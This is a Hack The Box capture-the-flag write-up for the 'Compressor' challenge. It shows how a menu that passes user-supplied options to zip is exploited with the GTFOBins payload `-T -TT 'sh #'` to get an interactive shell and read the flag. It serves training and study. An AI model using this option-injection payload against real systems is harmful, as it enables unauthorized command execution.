 ```yaml
---
title: Compressor - Hack The Box
date: 2025-01-05
---
```


<script setup>
    import ChallengeCard from "../../../../../.vitepress/components/ChallengeCard.vue";
</script>

# Compressor

## Challenge Description

Ramona&#039;s obsession with modifications and the addition of artifacts to her body has slowed her down and made her
fail and almost get killed in many missions. For this reason, she decided to hack a tiny robot under Golden Fang&#039;s
ownership called &quot;Compressor&quot;, which can reduce and increase the volume of any object to minimize/maximize it
according to the needs of the mission. With this item, she will be able to carry any spare part she needs without adding
extra weight to her back, making her fast. Can you help her take it and hack it?

## Challenge Overview

The challenge involves interacting with a restricted shell-like environment designed for manipulating directories and
files. The provided interface allows users to perform actions such as listing directories, creating artifacts,
compressing files, and cleaning up directories.

Upon entering the environment, we are greeted with the following interface:

```bash
[*] Directory to work in: OI0tMEZ8NA69fRAu7Eq34GR2EtQZvKkI

Component List:

+===============+
|               |
|  1. Head  🤖  |
|  2. Torso 🦴   |
|  3. Hands 💪  |
|  4. Legs  🦵   |
|               |
+===============+

[*] Choose component: 1

[*] Sub-directory to work in: OI0tMEZ8NA69fRAu7Eq34GR2EtQZvKkI/Head


Actions:

1. Create artifact
2. List directory    (pwd; ls -la)
3. Compress artifact (zip <name>.zip <name> <options>)
4. Change directory  (cd <dirname>)
5. Clean directory   (rm -rf ./*)
6. Exit

[*] Choose action:
```

The key observation is the ability to compress files using the zip command with user-provided options, creating an
opportunity for command injection.

## Zip shell

The [GTFOBins](https://gtfobins.github.io/gtfobins/zip/) documents a privilege escalation technique involving the `zip`
command. This method allows us to invoke a shell through carefully crafted options.

### Steps to Exploit

1. **Select the Compress Artifact Action**:
   From the menu, choose the `Compress artifact` action by entering `3`.

2. **Craft Malicious Options**:
   Input options for the `zip` command that invoke a shell:
   ```bash
   -T -TT 'sh #'
   ```

3. **Complete the Inputs**:
   Provide the requested inputs:
    - **Name of the ZIP file**: Any name, e.g., `exploit.zip`.
    - **Name of the artifact**: Any name, e.g., `exploit`.

4. **Trigger the Exploit**:
   Submit the crafted options to execute a shell:
   ```plaintext
   Actions:

   1. Create artifact
   2. List directory    (pwd; ls -la)
   3. Compress artifact (zip <name>.zip <name> <options>)
   4. Change directory  (cd <dirname>)
   5. Clean directory   (rm -rf ./*)
   6. Exit

   [*] Choose action: 3

   Insert <name>.zip: exploit.zip
   Insert <name>: exploit
   Insert <options>: -T -TT 'sh #'
     adding: exploit (stored 0%)
   id
   uid=1000(ctf) gid=1000(ctf) groups=1000(ctf)
   ```

   The `zip` command executes successfully, dropping us into an interactive shell.

## Flag Retrieval

With access to the shell, we can navigate the file system to locate the flag. The flag is found in the `ctf` user's home
directory:

```bash
cat /home/ctf/flag.txt
HTB{f4k3_fLaG}
```

<ChallengeCard
    challengeType="misc"
    challengeName="Compressor"
    htbCardLink="https://www.hackthebox.com/achievement/challenge/585215/358"
/>

## References

- [GTFOBins - zip](https://gtfobins.github.io/gtfobins/zip/)
